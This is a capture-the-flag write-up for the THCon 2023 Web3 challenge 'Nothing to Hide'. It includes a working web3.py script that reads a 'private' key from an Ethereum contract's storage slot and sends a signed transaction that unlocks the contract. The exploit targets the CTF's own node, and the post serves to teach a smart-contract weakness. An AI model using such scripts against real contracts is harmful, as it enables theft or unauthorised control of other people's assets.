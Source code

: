 ```yaml
---
layout: post
title: "Nothing to Hide (THCon CTF 2023)"
author: cryptax
tags:
- THCon
- CTF
- 2023
- Web3
- Ethereum
---
```


# Description

![](/images/thcon23-nothingtohide-description.png)

The challenge provides the following contract, and, same as the [Welcome challenge](./2023-04-22-welcome.md), the goal is to "unlock" to get the flag.


```
pragma solidity ^0.7.1;

contract hidden {

    bool public isLocked;
    
    bytes32 private key;
    
    bool private other;

    uint256 private garbage = 88888888888;

    uint256 public useless;

    uint256 private bob;


    constructor() {
        //hidden
    }

    function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }

}
```


# Solving the challenge

Like in the previous challenge, to unlock, we need a **key**, except this time it is *private*:

```
bytes32 private key;
...
function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }
```

So, we're going to read the key (exactly the way I had intended to do it initially with Welcome) using [`get_storage_at`](https://web3py.readthedocs.io/en/stable/web3.eth.html#web3.eth.Eth.get_storage_at). The storage probably holds the key at index 1:

```
bool public isLocked; # index 0
bytes32 private key;  # index 1
bool private other;   # index 2
...
```


The first step is to get the ABI of the contract, using solc. That's a step I grasped from [Sylvain Pelissier at Insomni'hack CTF](https://sylvainpelissier.gitlab.io/posts/2023-03-24-insomnihack-ownercheap/):

```
solc nothingtohide.sol --abi > abi.json
```

For the command to work, in my case, I had to fix the solidity pragma to `pragma solidity ^0.8.19;`. Then I copy-pasted the Json array in my Python script.

Then, you deploy the contract on the CTF infrastructure and retrieve the contact's address.

My script is very inspired from Sylvain's:

1. Connect to the RPC URL
2. Get the contract, using its address
3. Read the key from storage
4. Send the transaction

To send the transaction, you need your private key. You can retrieve it from the Metamask wallet you created for the CTF:

![](/images/thcon23-web3-account.png)
![](/images/thcon23-web3-accountdetails.png)

```python
#!/usr/bin/env python3

from web3 import Web3

# solc nothingtohide.sol --abi > abi.json - then copy paste content of abi.json here
abi = [{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[],"name":"isLocked","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"bytes32","name":"_something","type":"bytes32"}],"name":"unlock","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"useless","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}]

# connect to the CTF RPC URL
url = 'https://node01-eth.ctf.thcon.party:8545'
web3 = Web3(Web3.HTTPProvider(url))

# I am logged in the CTF interface with this personal address
my_address = web3.to_checksum_address('0xc8fe8405b49b4bf6a7853cc77fde61b95070e12a')

# The contract is deployed at this address
contract_address = web3.to_checksum_address('0xb9eE2C6DBa64e2dc3FE7e78aEE8e34FBb33FcAA3')
contract = web3.eth.contract(address=contract_address, abi=abi)

# Read the key from the contract
key_bytes = web3.eth.get_storage_at(contract_address,1)
print(f"key bytes: {key_bytes} {len(key_bytes)}")
# b' \xfa\xbb\xc0f0e\xde\x90\x9de\xa3\x02D\xd2\xb4\x1eE\x10\xa3`\xe7\xd5\xb0xA\xbb\x90\x8a\xd5z\x9f'

# create transaction
print('Creating transaction...')
transfer_tx = contract.functions.unlock(key_bytes).build_transaction(
    {
        'from': my_address,
        'nonce': web3.eth.get_transaction_count(my_address),
        'gasPrice': web3.eth.gas_price
    })


# signing the transaction with my personal wallet's private key (in Metamask)
print("Signing transaction...")
x_create = web3.eth.account.sign_transaction(transfer_tx, 0x863ce...)
# sending the transaction - for that I need a few tokens at least that I can mine on the CTF interface
print('Send raw...')
tx_hash = web3.eth.send_raw_transaction(x_create.rawTransaction)
print('Receipt')
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print(f'Tx successful with hash: { tx_receipt.transactionHash.hex() }')
```

This unlocks the contract, and thus, when you go back to the CTF interface, you get the flag :)

![](/images/thcon23-nothingtohide-solved.png)

# My feedback

Actually, I flagged this challenge more easily / quickly than Welcome, because I had some prior (small) experience with Web3 python scripts.
Nevertheless, I liked it very much: I find the scenario's design excellent, the CTF crypto interface excellent. Thanks!
